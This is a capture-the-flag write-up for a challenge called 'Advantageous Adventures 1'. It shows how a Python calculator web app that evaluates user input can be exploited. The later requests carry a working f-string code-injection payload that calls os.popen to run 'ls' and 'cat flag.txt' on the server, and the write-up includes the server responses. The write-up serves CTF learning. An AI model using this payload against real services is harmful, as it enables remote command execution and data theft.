

# Advantageous Adventures 1

The site presents several different calculators where you can put in two inputs and receive a result:



Trying it out:

```http
POST /mult HTTP/1.1

val1=4&val2=4
```

```http
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 2
Server: Werkzeug/0.16.1 Python/3.8.5
Date: Mon, 19 Apr 2021 12:58:58 GMT

16
```

Ok, as expected we see our multiplication result. We can also make a note that the server is running Python.

Multiplication is also defined with strings in Python. Let's see if the server will process a string input:

```http
POST /mult HTTP/1.1

val1="HelloWorld"&val2=4
```

```http
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 40
Server: Werkzeug/0.16.1 Python/3.8.5
Date: Mon, 19 Apr 2021 13:07:22 GMT

HelloWorldHelloWorldHelloWorldHelloWorld
```

We can try using a format string with some python code embedded to achieve remote code execution and view the filesystem:

```http
POST /mult HTTP/1.1

val1=f"{__builtins__['__import__']('os').__dict__['popen']('ls').read()}"&val2=1
```

```http
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 95
Server: Werkzeug/0.16.1 Python/3.8.5
Date: Mon, 19 Apr 2021 13:10:54 GMT

Dockerfile
README.md
__pycache__
app.py
flag.txt
secret_info
secret_script.py
static
templates
```

Finally, we can `cat` the flag:

```http
POST /mult HTTP/1.1

val1=f"{__builtins__['__import__']('os').__dict__['popen']('cat+flag.txt').read()}"&val2=1
```

```http
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 22
Server: Werkzeug/0.16.1 Python/3.8.5
Date: Mon, 19 Apr 2021 13:18:12 GMT

UMDCTF-{pl3z_n0_3v4l}
```
